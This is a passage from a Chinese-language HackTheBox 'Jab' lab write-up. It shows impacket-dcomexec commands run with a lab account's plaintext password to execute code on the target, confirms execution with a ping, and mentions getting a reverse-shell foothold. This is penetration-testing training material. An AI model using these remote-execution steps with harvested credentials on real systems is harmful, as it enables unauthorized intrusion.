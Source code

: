 按照文章中的命令执行，发现卡在“SMBv3.0 dialect used”，最后发现用`-nooutput`选项就好了：  
*因为卡在SMB连接，而help看这个选项说“no SMB connection created”。*  
*而后细看上面文章提到的`-silentcommand`，试了下也行，可能理由一样，就是文章里说的“since the script is using an SMB share to write and fetch the output, and our low-privileged user cannot write to any.”？*

```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ impacket-dcomexec jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 "whoami" -object MMC20
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
^C[-] 


┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ impacket-dcomexec jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 "whoami" -object MMC20 -nooutput
Impacket v0.11.0 - Copyright 2023 Fortra

┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ 
```


## Initial Access

由于无法输出命令结果到终端，为了验证命令是否真的被执行，于是尝试ping自己并监听网卡，发现收到ping包——即命令可成功执行：
![HTB-Jab-ping](./evidence-img/HTB-Jab-ping.png)


接下来就准备反弹shell，成功接收：
![HTB-Jab-foothold](./evidence-img/HTB-Jab-foothold.png)




## flag: user
